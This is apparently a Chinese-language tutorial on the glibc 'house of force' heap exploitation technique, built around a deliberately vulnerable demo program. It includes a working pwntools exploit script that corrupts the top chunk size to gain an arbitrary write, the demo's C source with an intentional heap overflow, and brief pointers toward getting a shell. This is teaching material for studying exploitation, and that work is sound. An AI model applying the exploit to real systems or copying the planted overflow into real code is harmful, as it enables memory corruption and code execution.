









# house of force

本文介绍一种被称为**house of force**的 heap溢出利用技巧。

这是一种通过溢出改写top_chunk header信息进而达到任意写技巧。

### 基本信息

命令行打开 [house_of_force](../house_of_force/house_of_force) :



可见demo程序泄露了puts函数以及heap的地址，且提供三个选项：

1. 调用malloc

   调用malloc可以控制申请内存的大小以及输入的内容， 这个功能只能用四次。

2. 打印target

   target 是这个程序的全局变量， 且写死为hello，我们第一个目标就是改写它。

3.  退出

用`ldd`查看改该二进制的依赖:



可见这个二进制的的动态链接库指定了一个自定义的地址，而libc也指向了特定的版本。

用`pwntools`下的`checksec`查看该二进制的基本运行时安全措施:



我们关注标红部分，No PIE (position independant executable) 意味着这个二进制没有[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)保护。（这是为了减少复杂度故意设置，不过即使打开ASLR，有地址泄露，理论上也不难绕过）RUNPATH是指该二进制运行时的动态链接库的搜索地址（一般来说，该地址非默认时会导致运行的核心调用库被篡改，这是为了链接特定libc库的举措）

### 运行时行为debug

为方便查看heap的变化，下面采用 [pwndbg](https://github.com/pwndbg/pwndbg) 调试, 这是一个gdb 的插件，它集成很多方便的命令，以及提供好看的编码高亮。

用命令`gdb -q ./house_of_force` 启动debuger，用命令`run`(或者简写`r`), 然后选择1，需要大小的24字节的内存，写入内容aaaa，回车，最后ctrl+c开始debug:



这时，先用命令`vmmap`查看当前的memory map:



蓝色部分显示确实有heap分配了，且开始的位置为0x405000， 与开始时泄露的地址一致。

我们用命令`vis_heap_chunks`(或简写`vis`) 查看当前heap的样子：


如上图，我们确实看到一个大小为0x20的malloc chunk, 以及我们写入的“aaaa\n”的ASCII码（注意大小端）且指出了top_chunk的位置。

当然，我们也可以用命令`top_chunk`来查看top_chunk信息:



由于我们申请了24字节的内存，这块内存至少可以存储23个a(换行占一个字节)，很自然想到，如果我们写很多a，heap会是怎么样呢？



这时可见原来的0x0000000000020fe1变成了0x6161616161616161，而这恰恰是我们写入的a, 原来的0x0000000000020fe1表示top_chunk的大小，如今被改成了x6161616161616161。

也就是说我们有机会改写top_chunk的大小，打破heap的边界。

这就是这个demo的漏洞。下面我们利用这个漏洞来达到任意写。

### 任意写

由前面的memory map知道，heap是从0x405000 开始的，而top_chunk的大小可以控制，理论上说0x405000往后走的内存都可以被当做heap，都能被分配，都能被写（前提是它们能被写，否则会有segmen falt，毕竟前面`checksec`看到NX 是打开的。）但0x405000之前的呢？比如 target


target 变量位于0x404070，由前面的memory map 可知其为可写部分（一般来说，非静态全局变量都在这里）但0x404070在heap 0x405000之前，heap 地址只能往大处增长，如何覆盖到一个小的数值？

容易想到，整数溢出。由于heap的地址只能往大处增长，但不能无穷增长，到最大地址0xffffffffffffffff (32位的是0xffffffff)后，再继续增长就要从0x0开始了，进而有可能覆盖到target。

基本思想有了，下面描述一下具体做法：

1. 先malloc一段小内存，写入内容溢出，使得系统误以为top_chunk大小为0xffffffffffffffff
2. 然后再malloc一段大内存，使得top_chunk位置越过最大内存地址，回到开始，且在target附近
3. 最后在再malloc一段内存，使得刚好覆盖target的位置，进而我们可以控制target及其附近的内容。



用pwntool编写exp [house_of_force.py](../house_of_force/house_of_force.py) 

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("house_of_force")
libc = elf.libc

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def malloc(size, data):
    io.send("1")
    io.sendafter("malloc size: ", f"{size}")
    io.sendafter("malloc data: ", data)
    io.recvuntil("your option is: ")

def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

io.recvuntil("puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

io.recvuntil("heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil("your option is: ")
io.timeout = 0.1


log.info(f"heap: 0x{heap:02x}")
log.info(f"target: 0x{elf.sym.target:02x}")
malloc(24, b"Y"*24 + p64(0xffffffffffffffff))
distance = delta(heap+0x20, elf.sym.target-0x20)
malloc(distance, b"a")


log.info(f"delta between heap & main(): 0x{delta(heap, elf.sym.main):02x}")
io.interactive()
```

测试确实改写可target:




### get shell

达到任意写get shell 比较容易了，这里提供几个思路，具体实现留作作业：

1. 通过任意写注入shellcode， malloc hook 触发
2. 找rop gadget，同样malloc hook 触发。
3. ret2libc 调用execve

### one more thing

在开发这个demo时， 全局变量target 最初我写作`char* target` 但编译后对应的位置储存的却是 `char**` 而真正的数据不可写。但改成`char target[]`后，target的对应地方才直接是数据，这和c语言大部分的教材说的`char* a`等价于`char a[]`不符。具体原因要研究编译器的实现，这个后续会进行。

另外，在默认情况下，函数`printf`会占用heap来做buffer， 函数`setvbuf(stdout, NULL, _IONBF, 0);`  可去除这个影响。

以上实现，可参考demo的源码 [house_of_force.c](../house_of_force/house_of_force.c) 

```c
#include<stdio.h>
#include<stdlib.h>
#include<stdbool.h>
#include<unistd.h>
#include<malloc.h>

#define NAME "house of force\n"
#define LINE "-------------------------------\n"
// gcc -no-pie -Wl,-rpath,../libc/glibc_2.28_no-tcache/,-dynamic-linker,../libc/glibc_2.28_no-tcache/ld.so.2 -g house_of_force.c -o house_of_force

void print_banner(void) {
    printf(NAME);
}

void print_leak(void) {
    printf("puts() @ %p\n", &puts);
    char* a = malloc(0x88);
    printf("heap @ %p\n", a-0x10);
    free(a);
}

void print_option(int malloc_count) {
    printf("1) malloc %d/4\n", malloc_count);
    puts("2) target");
    puts("3) quit");
    printf("your option is: ");
}

unsigned long read_num(void) {
    char buf[31];
    unsigned long num;
    read(0, buf, 31);
    num = strtoul(buf, 0, 10);
    return num;
}

void do_malloc(int* malloc_count) {
    if (*malloc_count <= 3){
        printf("malloc size: ");
        char* buf = malloc(read_num());
        if (buf != NULL){
            printf("malloc data: ");
            read(0, buf, malloc_usable_size(buf)+8);
            *malloc_count+=1;
            printf(LINE);
        }
    }
    else{
        printf("Sorry, no more space for you to malloc.\n");
        printf(LINE);
    }
}

char target[] = "hello";
// char* target = "hello";
void do_target(char* target) {
    printf("The target is: %s\n", target);
    printf(LINE);
}

void do_exit(void) {
    printf("exiting...\n");
    printf(LINE);
    exit(0);
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    printf(LINE);
    print_banner();
    printf(LINE);
    print_leak();
    printf(LINE);

    int malloc_count = 0;
    print_option(malloc_count);
    unsigned long option_num;
    // char* target = "Have a nice day!";
    option_num = read_num();
    while (true) {
        switch (option_num) {
            case 1:
                do_malloc(&malloc_count);
                break;
            case 2:
                do_target(target);
                break;
            case 3:
                do_exit();
                break;
        }   
        print_option(malloc_count); 
        option_num = read_num();
        printf(LINE);
    }
    return 0;
}
```

